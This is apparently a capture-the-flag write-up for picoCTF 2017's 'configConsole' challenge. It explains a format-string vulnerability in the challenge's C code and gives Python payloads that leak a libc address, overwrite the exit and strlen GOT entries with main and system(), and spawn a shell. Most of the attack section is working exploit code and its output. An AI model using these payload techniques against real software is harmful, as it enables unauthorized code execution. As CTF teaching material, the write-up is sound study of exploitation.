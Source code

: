 # Level 3 - configConsole

```
Config Console
In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. 
See if you can get a shell on shell2017.picoctf.com:47232.

HINTS

You can either see where libc is or modify the execution. 
Is there a way to get the vulnerability to run twice so that you can do both?
There's a place in libc that will give you a shell as soon as you jump to it. Try looking for execve.
```

The vulnerable piece of code is here:
```C
void set_exit_message(char *message) {
    if (!message) {
        printf("No message chosen\n");
        exit(1);
    }
    printf("Exit message set!\n");
    printf(message);   //<---------------------------HERE

    append_command('e', message);
    exit(0);
}
```
This is obviously a FSB. But there is a call to exit(0) right afterwards, so how can we get around this?

I did this by leaking a libc address and updating the GOT entry for exit() in one statement:
```python
  # Set the exit message, since that has the vulnerable printf()
  # First print out a leaked address to use. Then update write to GOT
  # to update the lower 2Bytes of the exit() address with something 
  # that doesn't do anything. Thereby just returning instead of exiting
  payload = 'e'
  payload += '_______'
  payload += p64(0x4141414141414141)
  payload += ' %25$p%{}c%19$hn '.format(int(0xb45-14))
  payload += 'AAAAA'
  payload += p64(0x601258)
  print r.sendline(payload)
```

Before printf is called:
`0x601258 (exit@got.plt) —▸ 0x400736 (exit@plt+6)`
After printf is called:
`0x601258 (exit@got.plt) —▸ 0x400b45 (main+114)`

So whenever exit() is called it will jump back into main+114 instead.

So now we have two things:
* Libc leaked address
* Ability to do more calls to the vulnerable printf

Next, we want to find a function that will take a pointer, preferably to a string we control.
```C
void set_prompt(char *prompt) {
    if (!prompt) {
        printf("No prompt chosen\n");
        exit(1);
    }
    if (strlen(prompt) > 10) {                //<------------ This looks perfect
        printf("Prompt too long\n");
        exit(1);
    }
    printf("Login prompt set to: %10s\n", prompt);

    append_command('p', prompt);
    exit(0);
}
```
Great, and `strlen()` is only used here, so we're safe to update that with multiple writes
```python
  #Start overwriting the GOT entry for strlen()
  #update it with the address of system()
  wait_for_prompt(r)
  payload  = 'e '
  payload += '%{}c%17$hn '.format(int(addr1))
  payload += 'A'*(8)
  payload += p64(0x601210)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%18$hn '.format(int(addr2))
  payload += 'A'*(8+8)
  payload += p64(0x601210+2)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%19$hn '.format(int(addr3))
  payload += 'A'*(8+8+8)
  payload += p64(0x601210+4)

  print r.sendline(payload)
```

Now at this point, if we look at the GOT entry for strlen() we have:
`0x601210 (strlen@got.plt) —▸ 0x7fb0701b3490 (system)`
Perfect. Now we just have to pass the right parameter to `system()`

```python
  # strlen() in GOT is now overwritten
  # since prompt calls strlen on string passed
  # we can input string directly here
  print r.sendline('p /bin/sh')
  print "You should now have shell"
  
  # Drop to interactive console
  r.interactive()
```

Full exploit code in the [exploit.py](exploit.py) file.
